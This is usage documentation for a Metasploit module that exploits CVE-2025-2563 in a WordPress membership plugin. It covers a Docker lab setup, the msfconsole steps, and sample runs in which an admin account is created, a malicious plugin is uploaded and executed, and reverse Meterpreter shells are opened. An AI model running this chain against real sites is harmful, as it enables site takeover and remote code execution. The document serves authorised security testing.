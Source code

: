 ## Vulnerable Application

This Metasploit module exploits an unauthenticated privilege escalation in the
WordPress User Registration & Membership plugin (Free ≤ 4.1.2, Pro ≤ 5.1.2) (CVE-2025-2563).
When the Membership Addon is enabled, the plugin fails to prevent users from setting their
own account role, allowing anyone to escalate to administrator.

To replicate a vulnerable environment for testing:

1. Install WordPress using the provided Docker Compose configuration.
2. Download and install the User Registration plugin v4.1.1 (Free):
   [https://downloads.wordpress.org/plugin/user-registration.4.1.1.zip](https://downloads.wordpress.org/plugin/user-registration.4.1.1.zip)
3. Activate the plugin and enable the **Membership** Addon under:
   `/wp-admin/admin.php?page=user-registration-dashboard#features`.
4. No further configuration is required; vulnerability is present when the addon is active.
   - Permalinks must be enabled.

## Docker Compose Configuration

```yaml
services:

  wordpress:
    image: wordpress:6.3.2
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    volumes:
      - wordpress:/var/www/html
      - ./custom.ini:/usr/local/etc/php/conf.d/custom.ini

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_ROOT_PASSWORD: dummy_password
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

Create a `custom.ini` file with:

```ini
upload_max_filesize = 64M
post_max_size = 64M
```

## Verification Steps

1. Start the environment:

```bash
docker-compose up -d
```

2. Complete WordPress setup at [http://localhost:5555](http://localhost:5555).
3. Confirm the User Registration v4.1.1 plugin is active under **Plugins**.
4. Enable the **Membership** Addon at `/wp-admin/admin.php?page=user-registration-dashboard#features`.
5. Launch `msfconsole`.
6. Load the module:

```bash
use exploit/multi/http/wp_user_registration_membership_escalation
```

7. Set `RHOSTS` to the target IP, and configure credentials:

```bash
set WP_USER eviluser
set WP_PASS Str0ngP@ss!
set WP_EMAIL eviluser@example.com
```

8. (Optional) Set `TARGETURI` if WordPress is installed in a subdirectory.
9. Run the exploit:

```bash
run
```

## Options

* **WP_USER**, **WP_PASS**, **WP_EMAIL**: Credentials for the new administrator account to be created.

## Scenarios

### Successful Exploitation

**Setup:**

* Local WordPress instance with User Registration v4.1.1 (Free) and Membership Addon enabled.
* Metasploit Framework

**Steps:**

1. Start `msfconsole`.
2. Load the module:
```bash
use exploit/multi/http/wp_user_registration_membership_escalation
```
3. Configure options:
```bash
set RHOSTS 127.0.0.1
set TARGETURI /
set WP_USER admin2
set WP_PASS P@ssw0rd!
set WP_EMAIL admin2@example.com
run
```

**Expected Results (PHP payload):**

```plaintext
msf exploit(multi/http/wp_user_registration_membership_escalation) > run http://lab:5555
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected WordPress version: 6.8.1
[+] Detected user-registration version 4.1.1
[+] The target appears to be vulnerable.
[*] Registering new user with free membership...
[+] User registered: eviluser
[*] Escalating to administrator...
[+] Administrator created: eviluser:Str0ngP@ss!
[*] Authenticating via wp-login.php…
[!] wp-login.php failed—trying plugin login page
[+] Authenticated via plugin login page
[*] Uploading malicious plugin...
[*] Executing payload at /wp-content/plugins/wp_rxrpu/ajax_1vxd2.php...
[*] Sending stage (40004 bytes) to 172.27.0.3
[+] Deleted ajax_1vxd2.php
[+] Deleted wp_rxrpu.php
[+] Deleted ../wp_rxrpu
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 172.27.0.3:41616) at 2025-05-09 16:55:20 +0200

meterpreter > sysinfo
Computer    : 111d64934b4f
OS          : Linux 111d64934b4f 6.14.2-2-cachyos #1 SMP PREEMPT_DYNAMIC Thu, 10 Apr 2025 17:27:10 +0000 x86_64
Meterpreter : php/linux
```

**Expected Results (Command payload):**

```plaintext
msf exploit(multi/http/wp_user_registration_membership_escalation) > run http://lab:5555
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected WordPress version: 6.8.1
[+] Detected user-registration version 4.1.1
[+] The target appears to be vulnerable.
[*] Registering new user with free membership...
[+] User registered: eviluser2
[*] Escalating to administrator...
[+] Administrator created: eviluser2:Str0ngP@ss!
[*] Authenticating via wp-login.php…
[!] wp-login.php failed—trying plugin login page
[+] Authenticated via plugin login page
[*] Uploading malicious plugin...
[*] Executing payload at /wp-content/plugins/wp_mwtqu/ajax_nncym.php...
[*] Sending stage (3045380 bytes) to 172.27.0.3
[+] Deleted ajax_nncym.php
[+] Deleted wp_mwtqu.php
[+] Deleted ../wp_mwtqu
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 172.27.0.3:59124) at 2025-05-09 16:56:39 +0200

meterpreter > sysinfo
Computer     : 172.27.0.3
OS           : Debian 12.10 (Linux 6.14.2-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
